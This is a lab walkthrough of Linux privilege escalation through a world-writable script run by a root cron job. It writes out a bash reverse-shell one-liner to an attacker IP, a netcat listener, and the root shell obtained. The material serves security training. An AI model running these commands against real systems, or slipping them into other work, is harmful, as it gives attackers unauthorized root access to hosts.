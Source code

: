 
There should be two cron jobs scheduled to run every minute. One runs overwrite.sh, the other runs /usr/local/bin/compress.sh.

```

* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh

```

Locate the full path of the overwrite.sh file:

l`ocate overwrite.sh`

Note that the file is world-writable:

`ls -l /usr/local/bin/overwrite.sh`

```

user@debian:~$ locate overwrite.sh
locate: warning: database `/var/cache/locate/locatedb' is more than 8 days old (actual age is 818.6 days)
/usr/local/bin/overwrite.sh
user@debian:~$ ls -l /usr/local/bin/overwrite.sh
-rwxr--rw- 1 root staff 40 May 13  2017 /usr/local/bin/overwrite.sh
user@debian:~$ 

```

Replace the contents of the overwrite.sh file with the following after changing the IP address to that of your Kali box.



```

#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1



user@debian:~$ nano /usr/local/bin/overwrite.sh 
bash -i >& /dev/tcp/10.2.77.171/4444 0>&1
#echo `date` > /tmp/useless

```

Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener.

`nc -nvlp 4444`

```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 4444       
listening on [any] 4444 ...
connect to [10.2.77.171] from (UNKNOWN) [10.10.217.88] 49697
bash: no job control in this shell
root@debian:~# whoami
whoami
root
root@debian:~# pwd 
pwd
/root
root@debian:~# echo $SHELL
echo $SHELL
/bin/sh
root@debian:~# exit
exit
```